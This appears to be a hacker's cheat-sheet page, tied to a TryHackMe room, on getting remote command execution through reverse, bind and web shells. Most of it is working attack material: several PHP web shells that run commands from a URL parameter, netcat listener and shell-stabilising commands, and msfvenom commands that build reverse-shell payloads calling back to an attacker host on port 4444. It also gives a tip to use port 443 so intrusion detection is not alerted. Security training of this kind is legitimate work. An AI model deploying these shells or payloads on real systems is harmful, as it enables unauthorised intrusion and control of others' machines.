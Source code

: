 # Shell

[![introtoshells](../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-md-2"><div>

The best kind of situation of a hacker is when it's possible to run commands on the target, or better, to run code on the target. The hacker will typically exploit a vulnerability <small>(ex: file upload, command injection...)</small> leading to a **RCE**

* Remote Command Execution
* Remote Code Execution

On Kali, you can find preinstalled reverse/web shells inside

```bash
$ ls /usr/share/webshells
```
</div><div>

The script leading to a RCE could use

* a **reverse shell**: we open a port on our machine, and the target connect to it. We can run commands on the target, and hopefully do a successful privilege escalation.
* a **bind shell**: we open a port on the target and connect to it. This is like SSH, but we with a port we picked, and no login/password.
* a **web shell**: we are using a webpage with a form to run commands. It's a bit hard to use, but it may be the only way.

> To avoid alerting IDS, a bind/reverse shell should use a port that would not be suspected such as `443` (HTTPS).<br>
>
> It's not always possible to use a bind/reverse shell, there will most likely be a firewall blocking access.
</div></div>

> There is a script called [ShellPop](https://github.com/0x00-0x00/ShellPop) (1.4k ⭐, 2018/2019) that is a simplified interface to create reverse/bind/web shells.

<hr class="sep-both">

## web shell in PHP

If you created a file **xxx.php**, then you can run commands by accessing the URL **xxx.php?cmd=payload**.

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ compacted web shell

```php
<?="<pre>".system($_GET["cmd"]." &2>1" ?? "whoami")."</pre>"; ?>
```

which is the same as

```php
<?php echo "<pre>".system(/* code */)."</pre>"; ?>
```

* ➡️ simple web shell with `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php
<?php
echo "<pre>".system($_GET["cmd"]." &2>1" ?? "whoami")."</pre>";
?>
```
</div><div>

* ➡️ simple web shell with `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php
<?php
$output = "";
exec($_GET["cmd"]." &2>1" ?? "whoami", $output);
echo "<pre>".implode(' ', $output)."</pre>";
?>
```

* ➡️ simple web shell with `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php
<?php
echo "<pre>".passthru($_GET["cmd"]." &2>1" ?? "whoami")."</pre>";
?>
```

* ➡️ simple web shell with `shell_exec`  ([doc](https://www.php.net/manual/en/function.shell-exec.php))

```php
<?php
echo "<pre>".shell_exec(($_GET['cmd'] ?? "whoami").' 2>&1')."</pre>";
?>
```

</div></div>

<hr class="sep-both">

## Notes on reverse/bind shells

<div class="row row-cols-md-2"><div>

In a reverse shell, the hacker will usually listen on a port

```bash
$ nc -lnvp port
```

While in a bind shell, the hacker will listen

```bash
$ nc IP port
```

In any case, it's worth noting that such a shell is instable. 

* If you press CTRL+C, then the shell will dies while you may have wanted to cancel a command on the target instead.
* You may also want to use TAB or other utilities that make life easier.
* You can use commands requiring user input

You may also want to change the size of the terminal

* First, open another terminal and resize it with the size you want. Use `stty -a` and take note of the number of rows/columns.
* If the terminal you want to resize, use `stty rows n` and `stty cols n`
</div><div>

There are a few solutions way to make things better

* ➡  Manually

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
xxx@yyy:path$ export TERM=xterm # can use clear...
xxx@yyy:path$ # CTRL+Z
kali@kali:/tmp$ stty raw -echo; fg
xxx@yyy:path$ # can use CTRL+C / ...
xxx@yyy:path$ exit
kali@kali:/tmp$ reset # restore your terminal
```

* ➡️ Use a wrapper such as [rlwrap](https://github.com/hanslub42/rlwrap) (1.8k ⭐)

```bash
$ sudo rlwrap nc -lvnp 4444
xxx@yyy:path$ # still CTRL+C not working
```

* ➡️ Use a wrapper such as [penelope](https://github.com/brightio/penelope) (0.3k ⭐)

```bash
$ ./penelope.py 4444
xxx@yyy:path$ # every working?
```
</div></div>

<hr class="sep-both">

## Reverse shell

<div class="row row-cols-md-2"><div>

* ➡️PHP

You could check out [this script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (1.4k ⭐, 2015).
</div><div>
</div></div>

<hr class="sep-both">

## msfvenom to create shells

You can use msfvenom to generate all kinds of reverse shells.

<div class="row row-cols-md-2"><div>

* List payloads

```bash
$ msfvenom --list payloads
# payload opening a meterpreter - see metasploit
$ msfvenom --list payloads | grep meterpreter
```

* **Linux**

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (R=RAW) opening a reverse shell with netcat
# same as "-f raw" (to check)?
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 R
```
</div><div>

* **Node.js**

```bash
# Generate a .js opening a reverse shell (TCP)
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4444 -o shell.js
```

...
</div></div>